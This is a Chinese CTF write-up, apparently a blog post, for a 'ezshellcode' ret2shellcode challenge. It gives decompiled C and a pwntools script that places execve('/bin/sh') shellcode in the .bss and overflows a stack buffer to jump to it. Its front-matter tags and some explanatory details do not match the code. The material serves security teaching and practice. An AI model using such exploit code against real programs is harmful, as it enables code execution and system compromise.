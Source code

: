 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

`ret2shellcode`|`shellcode`

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[10]; // [rsp+6h] [rbp-Ah] BYREF

  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  setbuf(stdout, 0LL);
  mprotect((&stdout & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7);
  puts("Please.");
  read(0, &name, 37uLL);                        // bss
  puts("Nice to meet you.");
  puts("Let's start!");
  read(0, buf, 0x40uLL);		//溢出点
  return 0;
}
```

程序逻辑:

1. 第一个`read()`接收数据并保存到位于`bss`段上的`name`
2. 第二个`read()`接受数据并保存到栈上`buf`变量

利用思路:

1. 利用第一个`read()`往栈上写入`shellcode`
2. 利用第二个`read()`溢出跳转到`&name`调用`shellcode`完成利用

exp:

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
io = gdb.debug('./ezshellcode')
name_addr = 0x6010a0
shellcode = '''
xor rdx,rdx;
push rdx;
mov rsi,rsp;
mov rax,0x68732f2f6e69622f;
push rax;
mov rdi,rsp;
mov rax,59;
syscall;
'''
io.sendlineafter(b'Please.',asm(shellcode))
io.sendlineafter(b'start!',b'A'*18+p64(name_addr))

io.interactive()
```

tips:

第一段输入的`shellcode`被限制在`32`字节之内,所以不能用`pwntools`自带的`shellcode`生成器,需要找一个更短的`shellcode`